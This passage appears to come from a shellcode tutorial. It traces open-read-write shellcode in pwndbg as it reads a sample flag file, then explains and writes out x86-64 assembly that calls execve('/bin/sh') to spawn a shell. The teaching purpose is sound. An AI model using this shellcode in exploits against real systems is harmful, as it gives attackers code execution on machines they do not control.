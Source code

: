 #### 2. read(fd, buf, 0x30)

Set a breakpoint on `run_sh+55` where the second syscall is located.

```x86asm
 ► 0x555555555150 <run_sh+55>    syscall  <SYS_read>
        fd: 3 (/tmp/flag)
        buf: 0x7fffffffd848 ◂— 0
        nbytes: 0x30
```

The read syscall reads 0x30 bytes of data from the newly allocated file descriptor (3) for /tmp/flag and stores it at memory address 0x7fffffffe2c8. If we type `x/s 0x7fffffffe2c8`,

```x86asm
pwndbg> x/s 0x7fffffffe2c8
0x7fffffffe2c8: "flag{this_is_open_read_write_shellcode!}\n"
```

#### 3. write(1, buf, 0x30)

```x86asm
 ► 0x555555555160 <run_sh+71>    syscall  <SYS_write>
        fd: 1 (/dev/pts/2)
        buf: 0x7fffffffd848 ◂— 'flag{this_is_open_read_write_shellcode!}\n'
        n: 0x30
```

(the address is changed in the second run for me btw)

When we execute the `ni` command, it outputs 48 bytes (0x30) from the memory address `0x7fffffffe2c8` where the data is stored.

`flag{this_is_open_read_write_shellcode!}`

---

### execve Shellcode

**execve shellcode** executes arbitrary programs, typically used to spawn a shell on the target system. When people refer to "shellcode" without further specification, they're usually talking about this type.

| syscall | rax  | arg0 (rdi)           | arg1 (rsi)              | arg2 (rdx)              |
| ------- | ---- | -------------------- | ----------------------- | ----------------------- |
| execve  | 0x3b | const char *filename | const char *const *argv | const char *const *envp |

The `argv` parameter represents <u>arguments passed to the executable</u>, while `envp` represents <u>environment variables</u>. For our purposes of just executing a shell, we can set both to `NULL`. In Linux, common executables are stored in the `/bin/` directory, including the shell program we want to execute.

Our goal is to create shellcode that executes execve("/bin/sh", null, null) to spawn a shell.

```x86asm
;Name: execve.S

mov rax, 0x68732f6e69622f ; hex representation of "/bin/sh"
push rax
mov rdi, rsp  ; rdi = "/bin/sh\x00"
xor rsi, rsi  ; rsi = NULL
xor rdx, rdx  ; rdx = NULL
mov rax, 0x3b ; rax = sys_execve
syscall       ; execve("/bin/sh", null, null)
```
